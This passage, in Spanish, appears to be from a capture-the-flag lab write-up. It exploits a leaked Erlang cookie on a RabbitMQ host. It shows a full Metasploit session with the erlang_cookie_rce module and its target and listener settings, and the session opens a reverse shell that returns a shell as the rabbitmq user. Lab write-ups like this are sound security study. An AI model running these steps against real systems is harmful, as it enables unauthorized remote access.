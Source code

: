 Recordamos la cookie que habíamos visto antes y comenzamos a investigar qué se podía hacer con ella en Internet, y encontramos que existen varias formas de conseguir ejecutar código remoto a través de ella.

Arrancamos Metasploit y encontramos un exploit para la vulnerabilidad **erlang_cookie_rce**. Usando este exploit, logramos obtener acceso como el usuario *rabbitmq*:
```console
msf6 > search erlang

Matching Modules
================

   #   Name                                          Disclosure Date  Rank       Check  Description
   -   ----                                          ---------------  ----       -----  -----------
   0   exploit/multi/http/apache_couchdb_erlang_rce  2022-01-21       excellent  Yes    Apache Couchdb Erlang RCE
   1     \_ target: Unix Command                     .                .          .      .
   2     \_ target: Linux Dropper                    .                .          .      .
   3     \_ target: Windows Command                  .                .          .      .
   4     \_ target: Windows Dropper                  .                .          .      .
   5     \_ target: PowerShell Stager                .                .          .      .
   6   exploit/multi/misc/erlang_cookie_rce          2009-11-20       great      No     Erlang Port Mapper Daemon Cookie RCE
   7     \_ target: Unix                             .                .          .      .
   8     \_ target: Linux (CmdStager)                .                .          .      .
   9     \_ target: Windows                          .                .          .      .
   10    \_ target: Windows (CmdStager)              .                .          .      .

msf6 exploit(multi/misc/erlang_cookie_rce) > set cookie **********
cookie => **********
msf6 exploit(multi/misc/erlang_cookie_rce) > set rhosts 10.10.136.126
rhosts => 10.10.136.126
msf6 exploit(multi/misc/erlang_cookie_rce) > set lhost 10.9.4.73
lhost => 10.9.4.73
msf6 exploit(multi/misc/erlang_cookie_rce) > exploit
[*] Started reverse TCP double handler on 10.9.4.73:4444 
[*] 10.10.136.126:25672 - Receiving server challenge
[*] 10.10.136.126:25672 - Sending challenge reply
[+] 10.10.136.126:25672 - Authentication successful, sending payload
[*] 10.10.136.126:25672 - Exploiting...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ***********;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "**********\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.9.4.73:4444 -> 10.10.136.126:37636) at 2025-03-20 21:12:40 +0100

id
uid=124(rabbitmq) gid=131(rabbitmq) groups=131(rabbitmq)
```

